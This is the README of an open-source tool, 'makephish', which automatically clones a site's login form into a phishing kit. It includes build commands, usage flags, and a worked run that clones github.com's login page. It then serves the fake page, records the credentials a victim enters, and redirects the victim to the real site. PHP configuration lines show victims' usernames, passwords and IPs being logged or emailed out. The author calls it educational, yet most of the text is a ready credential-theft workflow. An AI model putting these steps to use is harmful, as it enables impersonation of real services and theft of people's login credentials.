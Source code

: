 # makephish

<p align="center">
  <img alt="makephish" src="https://github.com/andpalmier/makephish/blob/main/img/makephish.png?raw=true" />
  <p align="center">
    <a href="https://github.com/andpalmier/makephish/blob/master/LICENSE"><img alt="Software License" src="https://img.shields.io/badge/license-GPL3-brightgreen.svg?style=flat-square"></a>
    <a href="https://goreportcard.com/report/github.com/andpalmier/makephish"><img alt="Go Report Card" src="https://goreportcard.com/badge/github.com/andpalmier/goransom?style=flat-square"></a>
    <a href="https://twitter.com/intent/follow?screen_name=andpalmier"><img src="https://img.shields.io/twitter/follow/andpalmier?style=social&logo=twitter" alt="follow on Twitter"></a>
  </p>
</p>

This is a proof of concept to automatically create phishing kits based on a specified URL, **please note that** `makephish` **will work exclusively on websites having a simple pages with** `<form>` **logins.**

The purpose of this project is purely educative: I wrote `makephish` to get familiar with Go, this also means that the code is poorly written and organized. The idea of the project is also to show how easy it is to clone a website and use it to create phishing pages.

## Install


After downloading the repository, navigate into the directory and build the project:

```
$ make makephish
```

This will create a folder `build` with an executable called `makephish`. You can run the executable with the following flags:

## Usage

- `-url`: URL of login page
- `-ua`: User Agent string, by defefault *"Mozilla/5.0 (X11; Linux x86_64; rv:83.0) Gecko/20100101 Firefox/83.0"*
- `-php`: Path to the PHP file to be used, by default *"phish.php"*
- `-kits`: Path used to store the kits, by default *"./kits"*


### Example

```
$ ./build/makephish -url "https://github.com/login/"

           _           _   _     _
 _____  __| |_ ___ ___| |_|_|___| |_
|     ||. | '_| -_| . |   | |_ -|   |
|_|_|_|___|_|_|___|  _|_|_|_|___|_|_|
                  |_|


Navigating to https://github.com/login using the following User agent string: Mozilla/5.0 (X11; Linux x86_64; rv:83.0) Gecko/20100101 Firefox/83.0
Parameters found in the form of the given URL:
 - post action = /session
 - login attribute name = login
 - password attribute name = password
HTML file patched and saved in kits/github.com
PHP file saved in kits/github.com

[*] operation completed! kit created for https://github.com/login and saved in kits/github.com

$ tree kits/github.com
kits/github.com
├── assets
│   ├── behaviors-afe1a202.js
│   ├── chunk-frameworks-81b94425.js
│   ├── chunk-vendor-4d97ead9.js
│   ├── environment-f0adafbf.js
│   ├── frameworks-052cbe13e4b93c9b8358a7178885c1a0.css
│   ├── github-f19f9fd1ee83046f59cf1815d967f4d0.css
│   ├── sessions-45084fea.js
│   ├── settings-c44d66a8.js
│   ├── site-ca634d80a8a0df2203c34902267667dc.css
│   └── unsupported-a85b1284.js
├── index.html
└── phish.php

1 directory, 12 files

$ cd kits/github.com
$ php -S localhost:8000
[Sun Jan 10 12:10:54 2021] PHP 7.4.14 Development Server (http://localhost:8000) started
```

At this point, if you go to `localhost:8000` you should find something like this:

<p align="center">
  <img alt="fakeGH" src="https://github.com/andpalmier/makephish/blob/main/img/fakeGH.png?raw=true" />
</p>

If you enter some random credentials, you will note that you will be redirected to the real `github.com` login page:

<p align="center">
  <img alt="realGH" src="https://github.com/andpalmier/makephish/blob/main/img/realGH.png?raw=true" />
</p>

If you didn't modify the `phish.php` file, you can find the credentials you just enetered in `localhost:8000/log`:


<p align="center">
  <img alt="logs" src="https://github.com/andpalmier/makephish/blob/main/img/logs.png?raw=true" />
</p>

### PHP capabilities

A simple PHP file is provided in this repo, but you can easily adjust it to your needs. By default, the file will save username, password, User Agent string and IP of the victim in a log file, you can disable this option by removing the content of the variable `log`. You can also specify an email address to send these details via email everytime a new victim enters the credentials.

```
$exfilemail = ""; // -> enter an email address to send the details via email
$logpath = "log"; // -> make this variable empty to disable logging feature
```
